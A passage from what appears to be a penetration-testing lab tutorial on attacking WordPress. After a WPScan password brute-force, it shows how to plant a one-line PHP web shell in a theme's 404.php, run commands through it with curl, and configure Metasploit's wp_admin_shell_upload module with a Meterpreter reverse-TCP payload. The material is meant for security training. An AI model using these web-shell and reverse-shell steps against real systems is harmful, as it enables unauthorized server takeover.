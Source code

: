 The `--password-attack` flag is used to supply the type of attack. The `-U` argument takes in a list of users or a file containing user names. This applies to the `-P` passwords option as well. The `-t` flag is the number of threads which we can adjust up or down depending. WPScan was able to find valid credentials for one user, `john:firebird1`.

---

## Code Execution

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Log in to WordPress with the credentials for the `john` user, which will redirect us to the admin panel. Click on `Appearance` on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme. We already know that the active theme is Transport Gravity. An alternate theme such as Twenty Nineteen can be chosen instead.

Click on `Select` after selecting the theme, and we can edit an uncommon page such as `404.php` to add a web shell.

Code: php

```php
system($_GET[0]);
```

The code above should let us execute commands via the GET parameter `0`. We add this single line to the file just below the comments to avoid too much modification of the contents.

![](../imgs/theme_editor.png)

Click on `Update File` at the bottom to save. We know that WordPress themes are located at `/wp-content/themes/<theme name>`. We can interact with the web shell via the browser or using `cURL`. As always, we can then utilize this access to gain an interactive reverse shell and begin exploring the target.

Attacking WordPress

```shell-session
swmpdnky@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The [wp\_admin\_shell\_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell. We first need to set the necessary options.

Attacking WordPress

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```
